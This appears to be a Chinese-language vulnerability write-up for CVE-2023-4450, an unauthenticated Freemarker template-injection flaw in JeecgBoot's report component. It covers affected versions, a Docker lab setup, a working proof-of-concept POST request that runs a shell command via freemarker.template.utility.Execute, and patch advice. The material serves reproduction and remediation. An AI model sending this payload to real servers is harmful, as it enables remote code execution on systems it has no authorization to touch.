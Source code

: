 # jeecg-boot/积木报表基于SSTI的任意代码执行(CVE-2023-4450)

### 1.1、漏洞描述

JeecgBoot 是一款开源的的低代码开发平台，积木报表是其中的低代码报表组件。

JeecgBoot 受影响版本中由于积木报表 `/jeecg-boot/jmreport/queryFieldBySql` Api接口未进行身份校验，使用` Freemarker `处理用户用户传入的 sql 参数，未经授权的攻击者可发送包含恶意 sql 参数的 http 请求，通过 SSTI 在应用端执行任意代码。

漏洞分析

- [jeect-boot积木报表漏洞rce分析(CVE-2023-4450)](https://xz.aliyun.com/t/13224?time__1311=mqmxnDBD9AqQq405DIYYK0%3D9o8lCqCY4D&alichlgref=https%3A%2F%2Fwww.baidu.com%2Flink%3Furl%3D9RLOEl36EtNcLC0Dgi0hyJSVFcuk79a10ohOehdbN4P6bWkS4zR6nnSXYCXxsLvW%26wd%3D%26eqid%3Ddceaacc0000c2a5e0000000365fa4085#toc-7)

### 1.2、漏洞等级

高危

### 1.3、影响版本

- org.jeecgframework.jimureport:jimureport-spring-boot-starter@(-∞, 1.6.1)
- org.jeecgframework:minidao-spring-boot-starter@[1.6.7, 1.9.2)
- org.jeecgframework.boot:hibernate-re@[2.4.2, 3.5.3)
- JeecgBoot@[3.0, 3.5.3]
- org.jeecgframework:jeewx-api@[1.2.2, 1.5.2)
- org.jeecgframework.boot:codegenerate@[1.3.1, 1.4.4)
- org.jeecgframework.boot:drag-free@[1.0.0, 1.0.2)

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/jeecg-boot/CVE-2023-4450

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://127.0.0.1:8080/jeecg-boot/jmreport/list`即可看到积木报表页面

![image-20240320100517312](imgs/image-20240320100517312.png)



#### 2、漏洞验证

```bash
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: curl/7.88.1
Accept: */*
Content-Type: application/json
Content-Length: 124
Connection: close

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}
```

![image-20240320101555016](imgs/image-20240320101555016.png)

![image-20240320101624380](imgs/image-20240320101624380.png)

### 1.5、修复建议

- 将 org.jeecgframework.boot:hibernate-re 升级至 3.5.3 及以上版本
- 避免 /jeecg-boot/jmreport/queryFieldBySql Api接口对外暴露
- 禁用Freemarker高危的代码执行类，如：freemarker.template.utility.Execute
- 官方已发布补丁：https://github.com/jeecgboot/jeecg-boot/commit/acb48179ab00e167747fa4a3e4fd3b94c78aeda5
- 将 org.jeecgframework:jeewx-api 升级至 1.5.2 及以上版本
- 将 org.jeecgframework.boot:codegenerate 升级至 1.4.4 及以上版本
- 将 org.jeecgframework.boot:drag-free 升级至 1.0.2 及以上版本
- 将 org.jeecgframework.jimureport:jimureport-spring-boot-starter 升级至 1.6.1 及以上版本
- 将 org.jeecgframework:minidao-spring-boot-starter 升级至 1.9.2 及以上版本